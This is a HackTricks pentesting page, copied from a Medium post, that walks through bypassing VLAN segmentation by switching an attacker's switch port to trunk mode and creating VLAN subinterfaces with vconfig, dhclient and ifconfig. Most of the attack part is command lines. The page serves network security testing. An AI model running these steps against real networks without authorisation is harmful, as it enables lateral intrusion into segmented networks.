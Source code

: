 # Lateral VLAN Segmentation Bypass

<details>

<summary>📝<a href="https://www.twitch.tv/hacktricks_live/schedule"> <strong></strong> </a><mark style="color:blue;"><strong>Breached Write Content</strong></mark><strong> Wednesdays</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

**This page was copied from** [**https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9**](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)\*\*\*\*

If you have access to a switch that you are directly connected to, you have the ability to bypass VLAN segmentation within the network. Simply switch the port to trunk mode (otherwise known as trunk), create virtual interfaces with the IDs of the target VLANs, and configure an IP address. You can try requesting the address dynamically (DHCP) or you can configure it statically. It depends on the case.

First you need to find out exactly which port you are connected to. This is done via CDP messages, or you can search the port by mask **include**.

<figure><img src="../../.gitbook/assets/image%20(198).png" alt=""><figcaption></figcaption></figure>

**If the CDP is suddenly disabled, you can try searching the port by our MAC address.**

```
SW1(config)# show mac address-table | include 0050.0000.0500
```

<figure><img src="../../.gitbook/assets/image%20(249).png" alt=""><figcaption></figcaption></figure>

Before we switch to trunk mode, we need to list the existing VLANs and find out their identifiers. Then we will hang these identifiers on our interface to access VLANs. Thus, thanks to the trunk we can access any VLAN. By the way, the port we are connected to belongs to VLAN 10.

```
SW1# show vlan brief
```

<figure><img src="../../.gitbook/assets/image%20(178)%20(2).png" alt=""><figcaption></figcaption></figure>

**Here we go. Enter interface configuration mode and go into trunk mode.**

```
SW1(config)# interface GigabitEthernet 0/2
SW1(config-if)# switchport trunk encapsulation dot1q
SW1(config-if)# switchport mode trunk
```

During the switch to trunk mode, connectivity is lost. But I will fix that.

<figure><img src="../../.gitbook/assets/image%20(70)%20(3).png" alt=""><figcaption></figcaption></figure>

Create virtual interfaces and “hang” VLAN ID on them, and then raise them.

```
~$ sudo vconfig add eth0 10
~$ sudo vconfig add eth0 20
~$ sudo vconfig add eth0 50
~$ sudo vconfig add eth0 60
~$ sudo ifconfig eth0.10 up
~$ sudo ifconfig eth0.20 up
~$ sudo ifconfig eth0.50 up
~$ sudo ifconfig eth0.60 up
```

Now you need to request an address via DHCP. But if in your case this is not possible, you can set the address statically.

```
~$ sudo dhclient -v eth0.10
~$ sudo dhclient -v eth0.20
~$ sudo dhclient -v eth0.50
~$ sudo dhclient -v eth0.60
```

<figure><img src="../../.gitbook/assets/image%20(204).png" alt=""><figcaption></figcaption></figure>

Example of configuring a static IP address on an interface (VLAN 10):

```
~$ sudo ifconfig eth0.10 10.10.10.66 netmask 255.255.255.0
```

To test the connection, I initiate ICMP requests to the default gateways **for VLANs 10, 20, 50, 60**

<figure><img src="../../.gitbook/assets/image%20(207).png" alt=""><figcaption></figcaption></figure>

In the end, **I bypassed VLAN** segmentation and can get into any VLAN network, which unties my hands for the next steps

<details>

<summary>📝<a href="https://www.twitch.tv/hacktricks_live/schedule"> <strong></strong> </a><mark style="color:blue;"><strong>Breached Write Content</strong></mark><strong> Wednesdays</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

